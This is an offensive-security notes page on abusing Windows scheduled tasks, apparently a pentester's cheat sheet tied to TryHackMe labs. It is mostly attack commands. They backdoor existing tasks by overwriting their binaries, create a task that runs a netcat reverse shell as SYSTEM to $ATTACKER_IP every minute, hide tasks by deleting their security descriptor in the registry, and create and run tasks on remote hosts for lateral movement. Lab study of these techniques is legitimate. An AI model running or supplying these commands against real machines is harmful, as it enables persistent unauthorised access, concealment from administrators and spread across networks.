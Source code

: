 # Exploiting Windows Tasks
## Backdooring Existing Tasks
```powershell
# List scheduled tasks
#
schtasks

# View details about a scheduled task
#
schtasks /query /tn $TASK_NAME /fo list /v

# Check the permissions of an executable
#
icacls $PATH_TO_BINARY

# Modify the permissions (if possible/desired)
#
icacls $PATH_TO_BINARY /grant $GROUP:$PERMISSION

# You can overwrite files in Windows in the same way you’d do
# in Linux (however, this can cause issues with line
# endings... probably best to just use notepad.exe here
# instead)
#
echo $MALICIOUS_BINARY_AND_ARGUMENTS > $PATH_TO_BAT_TO_OVERWRITE

# Force a task to run (iff the current user has permission to
# do so)
#
schtasks /run /tn $TASK_NAME
```

If a task points to a file that you’ve obtained write access to, then that file can be altered without changing the underlying task.

It may also be possible to create your own tasks.

```powershell
# Creates a task that executes a netcat reverse shell back to
# the attacker. "/sc" and "/mo" indicate that the task should
# be run every minute. "/ru" indicates that the task will run
# with SYSTEM privileges.
#
schtasks /create /sc minute /mo 1 /tn $TASK_NAME `
	/tr "$NETCAT_PATH -e cmd.exe $ATTACKER_IP $ATTACKER_PORT" `
	/ru SYSTEM

# Checks to see if the task was created successfully.
#
schtasks /query /tn $TASK_NAME
```

#### Additional Resources
* [schtasks commands (Microsoft Documentation)](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks)
* [TryHackMe: Windows Privilege Escalation](https://tryhackme.com/room/windowsprivesc20)

### Stealthy Tasks
Deleting the task **Security Descriptor** will make the task invisible to any user in the system. *Note that this requires PsExec!*

1. Use `PsExec64.exe -s -i regedit` to open regedit with SYSTEM privileges.

2. Search in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\` for the task to hide. Under the key for that task, there will be a value named `SD` that contains the security descriptor. Simply delete it.

#### Additional Resources
* [TryHackMe: Windows Local Persistence](https://tryhackme.com/room/windowslocalpersistence) 

## Creating Tasks Remotely
> **Note:** By default, UAC restricts remote `schtasks` calls to domain admins and the default local “Administrator” account. *Local Windows admins cannot call this service remotely without first disabling UAC!*

The `schtasks ` command can also be used to create and manipulate services on *remote* machines. This uses the Windows RPC (TCP 135), but will fall back to named pipes over SMB (TCP 445) or NetBIOS (TCP 139). (In fact, this is how `schtasks ` works locally as well; the only difference is that in this case a local named pipe is always used.)

```powershell
# Create $ATTACKER_TASK on the $TARGET_HOST. Note that /sd
# (start date) and /st (start time) don't matter if we're
# invoking the task manually, as we do next.
#
schtasks /s $TARGET_HOST /RU "SYSTEM" /create `
         /tn "$ATTACKER_TASK" /tr "$SOME_COMMAND" /sc ONCE `
         /sd 06/25/2023 /st 16:10

# Invoke $ATTACKER_TASK.
#
schtasks /s $TARGET_HOST /run /TN "$ATTACKER_TASK"

# Clean up after yourself.
#
schtasks /S $TARGET_HOST /TN "$ATTACKER_TASK" /DELETE /F
```

### Additional Resources
* [TryHackMe: Lateral Movement and Pivoting](https://tryhackme.com/room/lateralmovementandpivoting)

